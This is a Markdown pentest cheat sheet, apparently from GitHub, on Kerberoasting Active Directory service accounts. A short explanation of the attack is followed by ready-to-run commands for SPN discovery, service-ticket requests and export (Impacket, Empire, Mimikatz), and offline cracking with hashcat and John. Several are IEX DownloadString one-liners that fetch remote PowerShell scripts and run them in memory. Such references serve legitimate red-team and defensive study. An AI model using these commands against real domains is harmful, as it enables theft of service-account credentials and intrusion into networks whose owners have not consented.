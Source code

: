 # Active Directory - Kerberoasting

### Overview

A Kerberoasting attack is an attack on the `Kerberos` authentication protocol
that involves compromising the password of a service account, a user account
that has a `ServicePrincipalName (SPN)`, through `service tickets` requests to
the `Ticket-Granting Service (TGS)`.

The attack is based on the fact that a part of the `service tickets` is
encrypted using one of the service account secrets (`RC4`, corresponding to
the `NTLM hash` of the service account password, and `AES 128/256 bits` keys).
The encryption type to be used can be specified client-side in order to force
the use of the `RC4` key. Thus, an offline cracking attack on the service
tickets can be conducted to retrieve the plaintext password of the
corresponding service account.   

As any authenticated user on the domain in posession of a
`Ticket-Granting Ticket (TGT)` can requests service tickets for all available
services, the service accounts password are exposed to offline cracking attack
that are much faster and can not be time restricted.  

The attack chain is as follow:
  - Identify user accounts with a `SPN` (service accounts)
  - Request service tickets for thoses services
  - Extract the TGS for offline cracking

###### Service Principal Names (SPN)

The `SPN` is a unique identifier of a service instance. `SPNs` are used in
`Kerberos` authentication to associate a service instance with a service
logon account. `SPN` are used to map a service running on a server to an
account it’s running as so that it can accept kerberos authentication.

### Automated SPN discover, request and export of TGS

The following tools can be used to automate the SPN discovery and the request
and export of Service Tickets for offline cracking:

```
# (Powershell) Invoke-Kerberoast - Load in memory
IEX (New-Object Net.WebClient).DownloadString(‘https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1')
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-OutputFormat <String>] [-Credential <PSCredential>]
Invoke-Kerberoast
Invoke-Kerberoast -Domain <DOMAIN> -Server <DC>
Invoke-Kerberoast -Format "John" / "Hashcat" # Default to John
Invoke-Kerberoast | Out-File <FILE>

# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DCIP> -request <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DCIP> -request -outputfile <FILE> <DOMAIN>/<USERNAME>
```

### Manual SPN Discovery

The following tools can be used to retrieve the SPN of the Domain services:

```
# Active Directory module
Get-ADUser -Filter * -Properties servicePrincipalName | Select-Object SamAccountName,servicePrincipalName

# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py [-h] [-request] [-request-user username] [-save] [outputfile OUTPUTFILE] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] domain/username[:password]
GetUserSPNs.py -dc-ip <DCIP> <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DCIP> -hashes <LMHASH:NTHASH> <DOMAIN>/<USERNAME> # PtH

# (Powershell) GetUserSPNs - retrieve only SPN associated to user accounts (CN=Users) - inject and run automatically
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1')

# (Powershell) Get-SPN - allows for regex searching in the account, service or group name (specified by the Type and Search parameters)
# IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")
Get-SPN [[-Credential] <PSCredential>] [[-DomainController] <String>] [[-Limit] <Int32>] [[-SearchScope] <String>] [[-SearchDN] <String>] [-Type] <String> [-Search] <String> [[-List] <String>] [<CommonParameters>]
Get-SPN -Type user -Search * -List yes
Get-SPN -Type service -Search "MSSQL*"
Get-SPN -DomainController <DC> -Credential <DOMAIN>\<USERNAME [...]

# Empire
usemodule situational_awareness/network/get_spn
```

Focus on the accounts with the higher probability of using a weak password,
usually user accounts with a password that has not been changed in a long time
/ not changed at all.

### Manual request and export of Service Tickets

The following tools can be used to request and export specific user Service
Tickets:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DCIP> -request-user '<USER>' <DOMAIN>/<USERNAME> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
GetUserSPNs.py -dc-ip <DCIP> -request-user '<USER>' -outputfile <FILE> <DOMAIN>/<USERNAME>

# (Python) skelsec/kerberoast
kerberoast spnroast -r <DOMAIN> -u '<USER>' <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<NTLMHASH>@<DCIP> # PtH
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<AESKEY>@<DCIP> # Pass the Key
kerberoast spnroast -r <DOMAIN> -t <USERFILE>  <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # File with a list of usernames to roast, one user per line
kerberoast spnroast -r <DOMAIN> -u '<USER>' -o <FILE> <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP>

# (Powershell)
# Request TGS KerberosRequestorSecurityToken, export them using Mimikatz and convert to hash using John's kirbi2john.py
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>" # Requests TGS for the specified SPN
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}} # Requests TGS for all SPN associated to Users accounts
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

# Empire
usemodule credentials/get_spn_tickets
usemodule credentials/mimikatz/extract_tickets
```

### Crack Service Tickets

Both `John the Ripper` (magnumripper fork) and `hashcat` can be used to crack
the TGS.

The hash needs to respect the following format to be recognized by `John` /
`hashcat`:

```
$krb5tgs$23$*user$realm$test/spn*$63386[...]
```

Depending on the version used, the hash from the `PowerSploit` `Invoke-Kerberos`
cmdlet may need to be manually updated.

The following commands to crack the hash can be used:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 13100 -r rules/best64.rule <HASHFILE> <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
